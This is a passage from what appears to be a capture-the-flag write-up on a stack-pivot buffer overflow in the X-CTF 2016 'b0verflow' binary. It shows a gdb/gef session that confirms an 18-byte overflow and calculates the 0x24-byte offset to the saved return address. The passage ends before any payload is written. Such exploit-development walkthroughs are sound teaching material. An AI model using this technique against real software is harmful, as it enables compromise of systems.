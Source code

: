 So we can see that it prints out some text. Then it scans `0x32` (`50`) bytes worth of data into a `32` byte buffer, giving us an `18` byte buffer overflow. Proceeding that the function returns.

## Stack Pivot Exploit

So we can overwrite the return address (seeing where the start of our input is in comparison to the saved return address is, we can see that the offset is `0x24` bytes since `0xffffd11c - 0xffffd0f8 = 0x24`):

```
gef➤  b *0x804857a
Breakpoint 1 at 0x804857a
gef➤  r
Starting program: /Hackery/pod/modules/stack_pivot/xctf16_b0verflow/b0verflow

======================

Welcome to X-CTF 2016!

======================
What's your name?
15935728

Breakpoint 1, 0x0804857a in vul ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd0f8  →  "15935728"
$ebx   : 0x0       
$ecx   : 0xf7fb601c  →  0x00000000
$edx   : 0xffffd0f8  →  "15935728"
$esp   : 0xffffd0e0  →  0xffffd0f8  →  "15935728"
$ebp   : 0xffffd118  →  0xffffd128  →  0x00000000
$esi   : 0xf7fb4000  →  0x001dbd6c
$edi   : 0xf7fb4000  →  0x001dbd6c
$eip   : 0x0804857a  →  <vul+95> lea eax, [ebp-0x20]
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xffffd0e0│+0x0000: 0xffffd0f8  →  "15935728"     ← $esp
0xffffd0e4│+0x0004: 0x00000032 ("2"?)
0xffffd0e8│+0x0008: 0xf7fb45c0  →  0xfbad2288
0xffffd0ec│+0x000c: 0x08048369  →  <_init+9> add ebx, 0x1c97
0xffffd0f0│+0x0010: 0xf7fb43fc  →  0xf7fb5980  →  0x00000000
0xffffd0f4│+0x0014: 0x00040000
0xffffd0f8│+0x0018: "15935728"
0xffffd0fc│+0x001c: "5728"
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x804856f <vul+84>         lea    eax, [ebp-0x20]
    0x8048572 <vul+87>         mov    DWORD PTR [esp], eax
    0x8048575 <vul+90>         call   0x80483c0 <fgets@plt>
 →  0x804857a <vul+95>         lea    eax, [ebp-0x20]
    0x804857d <vul+98>         mov    DWORD PTR [esp+0x4], eax
    0x8048581 <vul+102>        mov    DWORD PTR [esp], 0x8048682
    0x8048588 <vul+109>        call   0x80483a0 <printf@plt>
    0x804858d <vul+114>        mov    eax, ds:0x804a060
    0x8048592 <vul+119>        mov    DWORD PTR [esp], eax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "b0verflow", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804857a → vul()
[#1] 0x8048519 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 15935728
```
